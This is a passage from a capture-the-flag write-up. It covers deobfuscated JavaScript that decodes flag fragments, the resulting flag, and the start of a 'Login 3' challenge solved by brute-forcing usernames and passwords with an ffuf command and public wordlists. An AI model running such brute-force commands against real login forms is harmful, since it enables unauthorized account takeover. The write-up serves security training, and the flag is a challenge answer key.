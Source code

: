 deobfuscated code of `http://3.7.252.130/Snacks/js/min-1.12.1.js` file:

```js
function ObjectP() {
  var _0x53a201 = String.fromCharCode(109, 105, 123, 74, 52, 118, 52)
}
```

![snacks-3.png](files/snacks-3.png#center)

deobfuscated code of `http://3.7.252.130/Snacks/js/min-2.1.0.js` file:

```js
function ObjectP() {
  var _0x59964d = atob('NWNyMXB0XzBiZnU1YzR0MTBuISF9')
}
```

![snacks-4.png](files/snacks-4.png#center)

Flag: `CyberYami{J4v45cr1pt_0bfu5c4t10n!!}`

### Login 3

URL: `http://3.7.252.130/Login3/` \
Points: `+50` \
Description: _Ok, Not just login._

This time we again do brute force to get the login credentials, but the admin username doesn't work, so we also need to brute force username.

```bash
┌──PS(Aftab@Sama)-[~\Downloads]
└─$ ffuf -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=USERFUZZ&password=PASSFUZZ' -w D:\Tools\wordlist\web\SecLists-2024.3\Usernames\top-usernames-shortlist.txt:USERFUZZ -w D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Default-Credentials\default-passwords.txt:PASSFUZZ -u 'http://3.7.252.130/Login3/' -fr 'Invalid login credentials!'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://3.7.252.130/Login3/
```